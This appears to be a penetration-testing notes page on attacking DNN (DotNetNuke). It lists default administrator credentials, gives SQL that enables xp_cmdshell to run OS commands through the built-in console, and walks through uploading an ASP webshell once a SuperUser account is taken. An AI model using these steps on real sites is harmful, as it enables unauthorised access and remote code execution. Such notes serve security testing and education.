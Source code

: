 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DNN

## Default Creds

```bash
$ creds search DotNetNuke
+------------------------+----------+----------+
| Product                | username | password |
+------------------------+----------+----------+
| dotnetnuke corporation |  admin   | dnnadmin |
| dotnetnuke corporation |   host   | dnnhost  |
+------------------------+----------+----------+
```

## RCE

### SQL Console

System command can be run via the built-in SQL console under the Settings menu.

```sql
# enable xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

After pressing `Run Script` OS commands can be executed.

```sql
xp_cmdshell 'whoami'
```

### ASP Webshell

If the `SuperUser` account is compromised, we can access the Security settings (Figure 1) and allow any file extensions needed so we can upload a webshell (Figure 2).&#x20;

<figure><img src="../../.gitbook/assets/dnn_security_menu.png" alt=""><figcaption><p>Figure 1: Accessing the Security settings.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/dnn_allow_extensions.png" alt=""><figcaption><p>Figure 2: Add the desired file extensions.</p></figcaption></figure>

Upload a webshell, such as this [`.asp` webshell](https://raw.githubusercontent.com/backdoorhub/shell-backdoor-list/master/shell/asp/newaspcmd.asp) (Figure 3).

<figure><img src="../../.gitbook/assets/dnn_upload.png" alt=""><figcaption><p>Figure 3: Uploiad the webshell.</p></figcaption></figure>

Get the file's URL by right-clicking and interact with the webshell.

<figure><img src="../../.gitbook/assets/dnn_geturl.png" alt=""><figcaption><p>Figure 4: Get the URL and interact with the webshell.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="DNN" %}
{% embed url="https://www.dnnsoftware.com/" %}
{% endtab %}
{% endtabs %}
